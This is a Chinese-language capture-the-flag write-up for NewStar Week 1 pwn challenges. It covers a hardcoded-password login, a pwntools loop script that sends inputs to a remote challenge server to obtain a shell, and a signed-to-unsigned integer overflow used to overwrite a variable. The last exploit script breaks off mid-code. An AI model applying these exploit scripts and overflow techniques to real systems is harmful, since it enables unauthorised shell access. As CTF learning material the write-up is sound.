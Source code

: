 本次比赛的学习记录，包含比赛时做出来的以及复现部分
# Week 1
## PWN
### Real Login
![[Pasted image 20240929115710.png]]
`fun`函数中可以看出输入的`v3`等于`password`时即可运行`win`函数获取`shell`
![[Pasted image 20240929115811.png]]
可以看到`password`的内容为'NewStar!!!'，输入获取`shell`
![[Pasted image 20240929115852.png]]

### Game
![[Pasted image 20240929115948.png]]
`game`函数中可以看出输入的`v0`在(0,10)的范围内,
构造循环输入直到`v1>999`即可
exp:
```python
# 一次跑不通就多跑几次
from pwn import *

# context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
    p = process('./game')
else:
    p = remote('39.106.48.123', 26563)

v1 = 0

while v1 <= 999:
    p.recvuntil(b'num: ')
    p.sendline(b'10')
    v1 += 10
    print(v1)

print(v1)
p.interactive()
```
运行获取`shell`
![[Pasted image 20240929120213.png]]

### overwrite
![[Pasted image 20240929120552.png]]
当`v4`中的字符转为整数后大于114514时即可获取`shell`,正常输入时最大输入48个数，既0x30长度，刚好无法覆盖v4
![[Pasted image 20240929120941.png]]
![[Pasted image 20240929120950.png]]
我们可以发现v2的定义为有符号的整数，在read时会将v2转为无符号整数，此处有整数溢出，故可以输入一个负数，在read时即可read超出0x30数量的字符
exp:
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')    
local = True
if local:
    p = process('./overwrite')
else:
```